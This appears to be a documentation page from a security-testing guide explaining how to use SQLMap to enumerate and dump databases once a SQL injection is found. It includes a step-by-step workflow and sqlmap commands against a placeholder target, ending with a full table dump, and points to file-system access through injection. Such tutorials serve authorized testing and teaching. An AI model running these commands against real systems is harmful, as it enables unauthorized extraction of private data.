 ```yaml
---
title: Database Enumeration
description: Learn how to enumerate database structure and extract data using SQLMap
---
```



<Tabs defaultValue={"overview"} className="pt-5 pb-1">
  <TabsList>
    <TabsTrigger value={"overview"}>Overview</TabsTrigger>
    <TabsTrigger value={"workflow"}>Workflow</TabsTrigger>
    <TabsTrigger value={"commands"}>Key Commands</TabsTrigger>
  </TabsList>
  <TabsContent value={"overview"}>
    SQLMap provides comprehensive capabilities for enumerating database structures and extracting valuable information once a SQL injection vulnerability has been identified. These techniques allow for systematic exploration of the database environment while maintaining control over the scope and impact of your security assessment.
  </TabsContent>
  <TabsContent value={"workflow"}>
    A typical database enumeration workflow follows these steps:
    
    1. **Identify SQL injection vulnerability**
    2. **Determine database type and version**
    3. **List available databases**
    4. **Enumerate tables in target databases**
    5. **List columns in sensitive tables**
    6. **Extract valuable data**
    7. **Access file system (if needed and authorized)**
    
    This methodical approach ensures thorough exploration while minimizing unnecessary actions.
  </TabsContent>
  <TabsContent value={"commands"}>
    Essential SQLMap enumeration commands:
    
    ```bash
    # Get current database name
    sqlmap -u "http://target.com/vuln.php?id=1" --current-db
    
    # List all databases
    sqlmap -u "http://target.com/vuln.php?id=1" --dbs
    
    # List tables in a database
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname --tables
    
    # List columns in a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --columns
    
    # Dump data from a table
    sqlmap -u "http://target.com/vuln.php?id=1" -D dbname -T tablename --dump
    ```
  </TabsContent>
</Tabs>

## Exploration Techniques

<Stepper>
  <StepperItem title={"Database Structure Analysis"}>
    Learn how to enumerate databases, tables, and columns to map out the complete database structure.
    
    [Explore Database Structure →](/docs/sqlmap/database-enumeration/database-structure)
  </StepperItem>
  <StepperItem title={"Data Extraction Methods"}>
    Discover techniques for extracting data from databases, including filtering, optimizing, and handling large datasets.
    
    [Explore Data Extraction →](/docs/sqlmap/database-enumeration/data-extraction)
  </StepperItem>
  <StepperItem title={"File System Access"}>
    Learn how to access the file system through SQL injection vulnerabilities when database privileges permit.
    
    [Explore File System Access →](/docs/sqlmap/database-enumeration/file-system-access)
  </StepperItem>
</Stepper>

